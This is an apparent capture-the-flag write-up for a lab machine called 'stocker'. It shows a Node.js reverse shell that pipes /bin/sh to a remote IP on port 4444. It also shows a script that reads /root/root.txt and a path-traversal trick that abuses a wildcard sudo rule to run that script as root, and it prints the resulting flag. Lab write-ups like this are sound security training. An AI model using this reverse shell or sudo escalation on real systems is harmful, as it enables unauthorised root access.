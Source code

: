 1) I see all file JS in the directory /home/angoose/:

-->flag.js
```
angoose@stocker:~$ cat flag.js
```
```js
(function(){ 
        var net = require("net"), 
        cp = require("child_process"), 
        sh = cp.spawn("/bin/sh", []); 

        var client = new net.Socket(); 

        client.connect(4444, "10.10.11.196", function(){ client.pipe(sh.stdin); 
        sh.stdout.pipe(client); 
        sh.stderr.pipe(client); 
}); return /a/;})();
```

-->test.js
```
angoose@stocker:~$ cat test.js
```
```js
const fs = require('fs');

fs.readFile('/root/root.txt', 'utf8', (err, data) =>{
        if (err) throw err;
        console.log(data);
});

```

2) I see all sudo privilege:
```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

3) I exploit the file "test.js" to spawn the flag(root.txt):
```
angoose@stocker:/usr/local/scripts$ sudo /usr/bin/node /usr/local/scripts/../../../../../home/angoose/test.js
ef920f6015e433518b96a748973e0353
```
